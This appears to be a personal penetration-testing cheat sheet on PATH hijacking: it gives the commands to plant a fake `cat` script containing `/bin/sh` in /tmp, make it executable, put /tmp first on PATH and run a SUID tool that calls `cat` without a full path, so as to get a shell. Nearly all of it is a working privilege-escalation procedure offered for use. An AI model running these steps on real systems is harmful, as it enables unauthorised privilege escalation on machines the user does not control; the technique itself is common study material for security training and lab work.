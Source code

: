 # `cat` exploits
﷽
* Used when tools accept user input eg. of `n` where `n` will be read using the `cat` command, however:
  * the tool doesn't specify the entire path to file `cat` and thus, we may be able to exploit it.
## usage

* navigate to the `/tmp` directory, and create a file called `cat`
  * `cd /tmp; touch cat`

* add the path `/bin/sh` to `cat`, such as:
  * `echo "/bin/sh" > cat`

* then, set `execute` privileges:
  * `chmod +x cat`

* now, add `/tmp` to the `PATH` environment variable:
  * `export PATH=/tmp:$PATH`

* check the `$PATH`:
  * `echo $PATH`

finally, execute the tool (in my case, SUID exploit) ***from the `/tmp` directory***:
  * `cd /tmp;{tool-name}`

* a shell should be provided. WAHOOOOO
